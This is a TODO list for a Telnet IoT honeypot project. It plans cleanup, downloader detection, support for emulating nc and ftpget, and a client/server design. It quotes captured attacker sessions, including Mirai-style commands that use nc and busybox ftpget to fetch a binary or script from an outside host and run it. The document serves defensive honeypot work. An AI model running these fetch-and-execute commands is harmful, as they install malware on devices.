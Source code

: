 # Telnet IoT honeypot TODO

## Small

### clean up main.py
### clean up html/php frontend
### find a way to identify "new" downloaders

So that telnet emultaion code can be better adapted

### nc support

	2017-01-06 01:46:47   main.py:214        # enable^@
	2017-01-06 01:46:48   main.py:214        # system^@
	2017-01-06 01:46:48   main.py:214        # shell^@
	2017-01-06 01:46:49   main.py:214        # cd /tmp ; nc 154.16.3.202 1337 > bin ; chmod 777 bin ; ./bin ; rm -rf bin^@
	2017-01-06 01:46:49   main.py:214        # sh^@
	2017-01-06 01:46:50   main.py:214        # /bin/busybox FBI^@

### ftpget support

	2017-01-06 01:30:23   main.py:214        # enable
	2017-01-06 01:30:23   main.py:214        # system
	2017-01-06 01:30:24   main.py:214        # shell
	2017-01-06 01:30:25   main.py:214        # sh
	2017-01-06 01:30:25   main.py:214        # /bin/busybox MIRAI
	2017-01-06 01:30:26   main.py:214        # cd /var/tmp;cd /tmp;rm -f *;busybox ftpget securityupdates.us f f;sh f;ftpget securityupdates.us f f;sh f &

## Big

### Client/Server Modell

*Idea*
client (the real honeypot) runs as a telnet server (as now) but all conns and urls are just pushed do a db server, downloading and "analyzing" the binaries.

*PRO*
More servers than one possible (to increase the surface to catch connections)

*CONTRA*
I so not have more than one public IP, so multiple honeypots are useless + Multple IP's can be served via Firewall rules
